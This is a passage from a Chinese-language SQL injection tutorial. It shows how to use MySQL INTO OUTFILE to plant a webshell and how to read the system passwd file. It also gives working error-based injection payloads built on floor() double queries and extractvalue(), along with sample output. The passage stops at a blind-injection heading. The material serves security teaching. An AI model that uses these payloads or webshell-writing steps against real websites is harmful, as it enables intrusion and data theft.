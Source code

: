 可以看到，读取到了系统的passwd文件，同样理由，我们可以读取网站代码
而**INTO OUTFILE**则是写入操作，我们可以通过此方法写入webshell

```shell
MariaDB [(none)]> select '123' into outfile '/srv/http/1.txt';

Query OK, 1 row affected (0.00 sec)
```
这时候我们的目录下就会创建一个1.txt文件，其中的内容为123

但要注意，我们如果是通过外部写入数据的话，必须要把要写入的内容做一个HEX ENCODE，然后再写入，而另一个问题就是路径问题，如果对方的环境是windows，那么路径必须是\\双反斜杠，否则会被转义

所以当遇到一个注入时，往往想到的第一步都是先查看user()，如果是root的话就想办法找路径，这样就能直接写入shell，例如phpmyadmin或者后台sql操作台写shell
{实验:mysql实验两个函数效果,之前的GET页面root写shell，织梦后台写shell}

### 报错注入
mysql的报错注入有很多中方式
而报错原理也多种多样，我们讲一讲其中最常用的两种报错

#### 1. 双查询注入 floor()
双查询这种方法适用于注入的时候没有返回位,就是你们union select 1,2,3,4,5,6,7,8 这里是8个字段,固定的套路是

```
union select 1 from (select+count(*),concat(floor(rand(0)*2),( 注入爆数据语句))a from information_schema.tables group by a)b
```
对于此注入语句的原理解释

再次直接MARK下两个地方的解释

1. [知乎](http://www.zhihu.com/question/21031129)
2. [报错原理](http://mp.weixin.qq.com/s?__biz=MzA5NDY0OTQ0Mw==&mid=403404979&idx=1&sn=27d10b6da357d72304086311cefd573e&scene=1&srcid=04131X3lQlrDMYOCntCqWf6n#wechat_redirect)

#### 2.ExtractValue(）报错

这个报错语句很简单
```shell
MariaDB [(none)]> select extractvalue(1,concat(0x5c,(select user())));
ERROR 1105 (HY000): XPATH syntax error: '\root@localhost'
```
这个函数是返回XML值的，会将查询结果按照错误输出，但是有个问题就是，有长度限制为32位
例如：

```shell
MariaDB [(none)]> select extractvalue(1,concat(0x5c,(select '1111111111111111111111111111111111111111111111111111111111111')));
ERROR 1105 (HY000): XPATH syntax error: '\1111111111111111111111111111111'
```
只输出了32个1

mysql的报错还有十多种，但其余的大部分点都有约束条件，所以这儿就不一一解释(详情请见：《代码审计》第157页)
{实验:使用双查询注入报错，注入出数据}

#### 盲目注入
